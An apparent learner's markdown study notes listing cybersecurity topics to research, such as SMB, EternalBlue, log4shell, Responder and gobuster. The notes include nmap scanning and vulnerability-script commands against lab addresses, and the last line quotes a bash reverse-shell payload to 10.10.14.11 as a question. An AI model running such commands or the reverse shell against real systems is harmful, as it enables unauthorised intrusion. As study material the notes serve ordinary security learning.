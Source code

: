 ```yaml
---
title: CyberSec Concepts
author: Mateus Marques
output:
 html_document:
  highlight: tango
urlcolor: magenta
---
```


# Needs research

* OpenSSL. Why [configure like this](https://help.heroku.com/88GYDTB2/how-do-i-configure-openssl-to-allow-the-use-of-legacy-cryptographic-algorithms)?
```bash
for port in $(cat ports9.txt) ; do
  nmap -p $port 10.129.70.15 >> scan.txt
done
grep -i "open" scan.txt
```

* FIFO named pipe.

* What is DNS Lookup, XXE and OAST?

* `sudo nmap --script smb-vuln* -p 445  10.10.10.4` nmap scripts.

* Meterpreter Metasploit.

* WannaCry, EternalBlue, MS17-010.

* What is LDAP, JNDI, analyze log4shell vulnerability deeply.

* Why `nmap -Pn`, block ping probes.

* NTLMv2. NTHash.

* Responder utility. `responder`.

* `/etc/hosts` details. Why putting `IP   website` to resolve connection?

* Evil-WinRM. [Detailed guide](https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/). Port 5985, 5896.

* VPN. `openvpn`.

* NMAP.

* `telnet`. Port 23.

* `ftp`. File Transfer Protocol. Port 21.

* SMB. Server Message Block. `samba`, `microsoft-ds`. Port 445, or 139.

* ICMP echo request. `ping`.

* TCP/UDP ports.

* RDP. Remote Desktop Protocol. Port 3389.

* HTTP, HTTPS. `nginx`, `apache`. Port 80.

* MongoDB. No-SQL database. Port 27017, 27018.

* Rsync. `rsync`. Port 873.

* `gobuster`.

* SQL. `mariadb`, `mysql`. Port 3306.

* Where to get better password and directory lists? Search what Kali uses.

* What is the difference between `gobuster` options `vhost` and `dns`?

* What is `netcat` and how does it work?

* DNS servers. Why add arbitrary DNS servers to `/etc/hosts`, such as `8.8.8.8`?

* What the payload `bash -c 'exec bash -i &>/dev/tcp/10.10.14.11/1234 <&1'` does exactly?
